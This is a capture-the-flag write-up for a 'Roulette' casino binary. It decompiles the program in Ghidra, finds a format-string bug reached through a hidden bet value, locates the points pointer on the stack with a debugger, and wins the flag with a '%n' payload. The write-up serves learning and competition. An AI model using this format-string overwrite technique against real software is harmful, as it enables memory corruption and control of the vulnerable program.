

# Roulette



Lets check file type:
```console
file roulette.bin 
roulette.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ed7615410ce361d0fb60d7718bc23c478a0b0e57, for GNU/Linux 3.2.0, not stripped
```

It's executable file let run it:
```console
matan@matan:~/Documents/hacking/matrix2021$ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
2
num is : 4
The house always wins... Bye!

```

Look betting  game ,let open the file in ghidra an take a look on main function:
```c
undefined8 main(void)

{
  int iVar1;
  ssize_t sVar2;
  uint local_4c;
  ulong local_48;
  int local_3c;
  long local_38;
  uint local_30;
  undefined4 local_2c;
  uint *local_28;
  undefined8 local_20;
  char *local_18;
  int local_c;
  
  local_18 = (char *)0x0;
  local_20 = 0;
  local_28 = (uint *)0x0;
  local_2c = 0;
  local_48 = 2;
  local_4c = 0;
  local_30 = 0;
  local_38 = 0;
  local_28 = (uint *)malloc(4);
  *local_28 = 1;
  local_38 = time((time_t *)0x0);
  srand((uint)local_38);
  iVar1 = genrate_random_number(1000,10000);
  local_38 = local_38 + iVar1;
  srand((uint)local_38);
  fflush(stdout);
  puts("Welcome to Casino Royal");
  fflush(stdout);
  printf("This is a roulette game\nYou have %d point to start with.\n",(ulong)*local_28);
  fflush(stdout);
  puts("How many games would you like to play(Up to 2)?");
  fflush(stdout);
  iVar1 = __isoc99_scanf(&DAT_00102090,&local_48);
  if (iVar1 == 1) {
    fflush(stdin);
    if ((local_48 < 3) || (local_48 == 0xffffffffffffffff)) {
      local_c = 0;
      while ((ulong)(long)local_c < local_48) {
        puts("Choose your bet (1-36)");
        fflush(stdout);
        iVar1 = __isoc99_scanf(&DAT_001020f1,&local_4c);
        if (iVar1 != 1) {
          printf("Something went wrong!");
          fflush(stdout);
        }
        fflush(stdin);
        if (((int)local_4c < 1) || (0x24 < (int)local_4c)) {
          if (local_4c == 0x31519) {
            puts(
                "Please enter your command (it will be printed to make sure you entered the rightone):"
                );
            fflush(stdout);
            local_18 = (char *)malloc(0x40);
            sVar2 = read(0,local_18,0x40);
            local_3c = (int)sVar2;
            fflush(stdout);
            if (local_3c == -1) {
              puts("something went wrong with your command");
              fflush(stdout);
            }
            printf(local_18);
            fflush(stdout);
            free(local_18);
            goto LAB_00101588;
          }
          puts("Bet is out of range... choose another");
          fflush(stdout);
        }
        else {
          local_30 = genrate_random_number(1,0x24);
          printf("num is : %d\n",(ulong)local_30);
          fflush(stdout);
          if (local_30 != local_4c) {
            puts("The house always wins... Bye!");
            fflush(stdout);
            free(local_28);
            return 0;
          }
          *local_28 = *local_28 * 0x24;
          printf("You won this round\nPoints: %d\n",(ulong)*local_28);
          fflush(stdout);
LAB_00101588:
          if (10000000 < (int)*local_28) {
            free(local_28);
            puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
            fflush(stdout);
            return 0;
          }
        }
        local_c = local_c + 1;
      }
    }
    else {
      puts("You\'re trying to trick me! I\'m leaving...");
      fflush(stdout);
    }
  }
  else {
    puts("Something went wrong!");
    fflush(stdout);
  }
  return 0;
}
```


so we can see that we need that the if [local_28] will be bigger than
10000000
```c
if (10000000 < (int)*local_28) {
            free(local_28);
            puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
            fflush(stdout);
            return 0;
          }
```
we also see something  suspicions:
```c
local_18 = (char *)malloc(0x40); //malloc
            sVar2 = read(0,local_18,0x40); //read from sdt_input
            local_3c = (int)sVar2;
            fflush(stdout);
            if (local_3c == -1) {
              puts("something went wrong with your command");
              fflush(stdout);
            }
            printf(local_18);//print var content
```

Look like we have `format vulnerability`.
we have some steps to get to the read from std input:
1.need to pass game numbers check -    input range(-1) - 2 
```c
iVar1 = __isoc99_scanf(&DAT_00102090,&local_48);
  if (iVar1 == 1) {
    fflush(stdin);
    if ((local_48 < 3) || (local_48 == 0xffffffffffffffff)) {
      local_c = 0;
      while ((ulong)(long)local_c < local_48) {
```
2. enter bet between 1-36 - need to enter somthing specific
```c
if (((int)local_4c < 1) || (0x24 < (int)local_4c)) {
          if (local_4c == 0x31519) {
```
0x31519 = 202009

let's try it:
```console
matan@matan:~/Documents/hacking/matrix2021$ ./roulette.bin 
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009             
Please enter your command (it will be printed to make sure you entered the right one):

```

so we should check where is the `local_28` can be found on the stack in order to build buffer to override the value of [local_28].
 let put break on  and see what is the value of local_28 and how the stack look like:
 ```
 0x555555555564 <main+883>    call   free@plt <free@plt>
```

local_28
```
x $rbp-0x28
0x7fffffffdf10:	0x00005555555592a0
```
Stack
```
00:0000│ rsp  0x7fffffffdee0 ◂— 0xf0b5ff
01:0008│      0x7fffffffdee8 ◂— 0x31519000000c2
02:0010│      0x7fffffffdef0 ◂— 0x1
03:0018│      0x7fffffffdef8 ◂— 0x1055555635
04:0020│      0x7fffffffdf00 ◂— 0x604fe01e
05:0028│      0x7fffffffdf08 ◂— 0x0
06:0030│      0x7fffffffdf10 —▸ 0x5555555592a0 ◂— 0x989685
07:0038│      0x7fffffffdf18 ◂— 0x0
```

we can see that local 28 is in sixth place -in the format who be in location 12.

so our buffer should look like:
`%10000005x%12$n`

Now let run it:
```console
matan@matan:~/Documents/hacking/matrix2021$ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
%10000005x%12$n
. . .
You Won!
 The Flag is: MCL{I_HOPE_###################}
 ```
